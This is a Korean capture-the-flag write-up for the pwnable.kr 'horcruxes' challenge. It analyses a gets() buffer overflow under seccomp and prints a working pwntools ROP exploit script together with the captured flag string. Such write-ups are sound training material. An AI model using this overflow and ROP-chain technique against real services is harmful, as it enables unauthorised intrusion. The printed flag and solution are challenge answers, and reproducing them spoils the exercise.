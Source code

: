 # [pwnable.kr] horcruxes writeup



```shell
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)
```

뭔지는 모르겠는데 ROP 문제인 것 같다.

```shell
horcruxes@ubuntu:~$ cat readme 
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.
```

localhost 9032에 돌아가는 서비스를 대상으로 공격을 진행해야하는듯

대충 아래와 같이 동작하는 프로그램이다.

```shell
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:0
How many EXP did you earned? : 1
You'd better get more experience to kill Voldemort
```



처음에 그냥 어셈블리로 분석하다가 seccomp가 나오길래 scp이용해서 바이너리 땡겨와서 IDA로 살펴봤다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int context; // ST1C_4

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  context = seccomp_init(0);
  seccomp_rule_add(context, 2147418112, 173, 0);// sys_rt_sigreturn
  seccomp_rule_add(context, 2147418112, 5, 0);  // sys_open
  seccomp_rule_add(context, 2147418112, 3, 0);  // sys_read
  seccomp_rule_add(context, 2147418112, 4, 0);  // sys_write
  seccomp_rule_add(context, 2147418112, 252, 0);// sys_exit_group
  seccomp_load(context);
  return ropme();
}
```

seccomp를 사용해서 샌드박싱을 하는 걸 볼 수 있다. 디폴트 설정도 하고, `sigreturn`, `open`, `read`, `write`, `exit_group`만 화이트 리스트에 등록한다.

`init_ABCDEFG()`에서는 a, b, c, d, e, f, g 전역변수의 값을 랜덤으로 만들고, 해당 값들의 합을 sum에 저장한다.

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax
  unsigned int result; // eax
  unsigned int buf; // [esp+8h] [ebp-10h]
  int fd; // [esp+Ch] [ebp-Ch]

  fd = open("/dev/urandom", 0);
  if ( read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  v0 = rand();
  g = -559038737 * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + -559038737 * v0 % 0xCAFEBABE;
  sum = result;
  return result;
}
```



본 바이너리에서는 이 `ropme()`가 핵심이다. Menu에서 입력한 값에 따라서 여러 함수들을 부르는데 여기서 호크룩스들 및 다음의 루틴과 연결된다. 부르는 함수들 중에는 `A()`, `B()`, `C()`, `D()`, `E()`, `F()`, `G()`가 존재하는데, 각 각 위의 `init_ABCDEFG()`에서 초기화한 값들을 출력한다.

```c
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
```

취약점은 우선 위의 `gets()`에서 buffer overflow가 발생한다. seccomp로 인해 바로 쉘을 딸 수는 없어, flag를 open, read, write 하는 payload를 구성하거나 코드의 가젯들을 사용하면 된다. 

원래 바로 저 if 문 안으로 뛸 수 있을까 싶었는데, 하필 해당 코드 영역 주소에 0x0a가 포함되서 `gets()`로 입력 받을 때 payload가 끊긴다. 

> `gets()`는 stdin으로 0x0a 혹은 EOF를 받을 때까지 입력을 받는다.



같은 맥락으로 `open@plt`, `read@plt`, `puts`를 사용해서 payload를 구성하려 했는데, pop ret가젯 등을 이용해서 stack을 정리하려 하니 쓸만한 pop ret 가젯들 주소에 모두 0x0a이 들어가서 그냥 `A()`, `B()` ... `G()`를 모두 호출하여 exp를 구한 뒤 `ropme()`를 다시 호출해서 맞는 exp 값을 입력하기로 했다. `ropme()` 주소에 0x0a가 들어가서 난항을 겪기도 했는데, `main()`에서 call ropme()로 뛰면 해결된다.



#### Payload

```python
# /usr/bin/python
from pwn import *

context.log_level='debug'

r = remote('127.0.0.1', 9032)
r.recvuntil('Select Menu:')
r.sendline("1")
r.recvuntil('How many EXP did you earned? : ')

payload = 'A'*0x78
payload += p32(0x809fe4b)
payload += p32(0x809fe6a)
payload += p32(0x809fe89)
payload += p32(0x809fea8)
payload += p32(0x809fec7)
payload += p32(0x809fee6)
payload += p32(0x809ff05)
payload += p32(0x0809fffc)

r.sendline(payload)

exp = 0

for i in range(7):
        r.recvuntil('EXP +')
        exp += int(r.recvline()[:-2])

r.recvuntil('Select Menu:')
r.sendline("1")
r.recvuntil('How many EXP did you earned? : ')
r.sendline(str(exp))

r.interactive()
```

#### Result

```shell
horcruxes@ubuntu:/tmp/charlie3$ python sol_horc.py 
[+] Opening connection to 127.0.0.1 on port 9032: Done
[*] Switching to interactive mode
Magic_spell_1s_4vad4_K3daVr4!

```

